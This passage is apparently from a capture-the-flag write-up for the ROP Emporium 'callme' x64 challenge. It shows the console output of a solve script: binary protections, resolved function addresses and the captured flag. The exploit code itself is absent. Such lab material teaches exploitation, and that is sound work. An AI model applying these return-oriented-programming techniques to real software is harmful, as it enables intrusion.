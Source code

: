 ### Exécution

``` sh
03_callme$ python3 solve.py
[*] '/home/jce/w/ropemporium/x64/03_callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
[+] Starting local process '/home/jce/w/ropemporium/x64/03_callme/callme': pid 5846
[*] callme_one=400720
[*] callme_two=400740
[*] callme_three=4006f0
[*] Switching to interactive mode
[*] Process '/home/jce/w/ropemporium/x64/03_callme/callme' stopped with exit code 0 (pid 5846)
callme by ROP Emporium
x86_64

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

